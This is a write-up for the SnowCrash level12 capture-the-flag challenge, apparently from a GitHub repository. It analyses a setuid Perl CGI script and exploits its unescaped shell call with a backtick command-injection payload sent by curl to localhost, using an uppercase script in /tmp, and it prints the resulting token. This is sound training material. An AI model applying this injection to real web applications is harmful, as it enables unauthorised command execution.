 # SnowCrash Level12 Guide
This guide will walk you through the process of finding the password for the `flag12` user.

## Procedure:

1. **Examine your environment**
   
`id` : Shows user and group identities that you have. 
```bash
uid=2012(level12) gid=2012(level12) groups=2012(level12),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level12
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
We have a Perl script.

2. **Analyse level12.pl**

We have Perl installed on the VM.
We execute the script.
```bash
perl level12.pl
```
Returns
```bash
Content-type: text/html

..
```

We can read the content of the file.
```bash
cat level12.pl
```
Returns
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
This script seems to be a web server, which returns a HTML response.
It takes two parameters `x` and `y` and calls the function `t` with these parameters.
```perl
sub t {
  $nn = $_[1]; # y
  $xx = $_[0]; # x
  $xx =~ tr/a-z/A-Z/; # uppercase
  $xx =~ s/\s.*//; # remove spaces
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # search for lines starting (`^`) with $xx in /tmp/xd
  # `2>&1` redirects stderr to stdout
  # so all output is stored in @output
  foreach $line (@output) { # iterate over each line in @output
      ($f, $s) = split(/:/, $line); # split the line by `:`
      if($s =~ $nn) { # check if the second part of the line contains the second parameter
          return 1;
      }
  }
  return 0;
}
```
The function `t` searches for lines in `/tmp/xd` that start with the first parameter in uppercase and checks if the second parameter is in the second part of the line.
`/tmp/xd` does not exist.

We can't directly use the first argument because it is converted to uppercase.
`getflag>/tmp/flag` will be converted to `GETFLAG>/TMP/FLAG`.
But we can write a file that will be read by the script.

3. **Create a file to get the flag**

Go in `/tmp` and create a file `FLAG_EXPLOIT` containing the command to get the flag. The name of the file must be in uppercase to not to be modified.
```bash
cd /tmp
nano FLAG_EXPLOIT
```
Write the following command in the file:
```bash
#!/bin/sh
getflag > /tmp/flag
```
Give the file execution permissions.
```bash
chmod +x FLAG_EXPLOIT
```

In the script we can read `# localhost:4646` in comments.
We can assume that the script is running on port 4646.
We can use `curl` to send a request to the server, with the first parameter being the path to the file we just created.
```bash
cd /home/user/level12
curl localhost:4646/?x='`/tmp/FLAG_EXPLOIT`'
```
But it doesn't work because the script doesn't find the file.
So we replace `/tmp/FLAG_EXPLOIT` with `/*/FLAG_EXPLOIT`.
```bash
curl localhost:4646/?x='`/*/FLAG_EXPLOIT`'
```
We check `/tmp/flag` to see if the flag was written.
```bash
cat /tmp/flag
```
Returns
```bash
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Congratulations! We have succeeded in obtaining the token!
We now access level 13.
```bash
su level13
```